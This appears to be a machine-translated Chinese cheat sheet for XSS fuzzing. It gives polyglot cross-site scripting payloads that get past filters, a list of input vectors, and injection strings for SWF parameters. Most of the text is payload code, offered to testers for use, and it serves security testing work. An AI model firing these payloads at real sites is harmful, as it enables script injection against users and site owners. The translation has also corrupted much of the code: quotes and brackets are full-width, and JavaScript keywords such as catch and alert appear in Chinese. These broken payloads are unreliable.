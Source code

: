 # 战术模糊 -  XSS

## XSS
核心理念：页面功能是否向用户显示了某些内容？
对于时间敏感的测试，适用80/20规则。许多测试人员使用Polyglot有效负载。你可能也有！

### *多上下文，基于过滤器旁路的多语言有效负载＃1（Rsnake XSS备忘单）

```
'; alert（String.fromCharCode（88,83,83））//'; alert（String。fromCharCode（88,83,83））//“; alert（String.fromCharCode（88,83,83））/ /";alert(String.fromCharCode(88,83,83))//--> </ SCRIPT>“>'> <SCRIPT> alert（String.fromCharCode（88,83,83））</ SCRIPT>
```



### 多上下文，基于过滤器旁路的多语言有效载荷＃2（Ashar Javed XSS Research）

```
 
“>> <marquee> <img src = x onerror = confirm（1）> </ marquee>”> </ plaintext \> </ | \> <plaintext / onmouseover = prompt（1）> <script> prompt（1 ）</ script> @ gmail.com <isindex formaction = javascript：alert（/ XSS /）type = submit>' - >“> </ script> <script> alert（1）</ script>”> <img / id =“confirm＆lpar; 1）”/ alt =“/”src =“/”onerror = eval（id＆％23x29;>'“> <img src =”http：//i.imgur.com/P8mL8.jpg “> 

￼￼```

### 多上下文多语言有效载荷（Mathias Karlsson）

```

“onclick = alert（1）// <button'onclick = alert（1）//> * / alert（1）//

```

###￼ 其他XSS观察

输入向量：
- 通过CSS自定义主题和配置文件
- 活动或会议名称
- 基于URI
- 从第三方导入（想想Facebook集成）
-  JSON POST值（检查返回的内容类型）
- 文件上传名称
- 上传的文件（swf，HTML，++）
- 自定义错误页面
- 假参数 - ？realparam = 1＆foo = bar'+ alert（/ XSS /）+'
- 登录和忘记密码表格

## SWF参数XSS

常见参数：
onload，allowedDomain，movieplayer，xmlPath，eventhandler，callback（更多关于OWASP页面）

普通注射带：￼

```

\％22}）））}赶上（E）{警报（document.domain的）;} //

```

```

“]）;}赶上（E）{}如果（self.a）self.a =警报（document.domain的）;！//

```


```

“A”）（（{类型： “就绪”}））;}赶上（E）{警报（1）} //

```
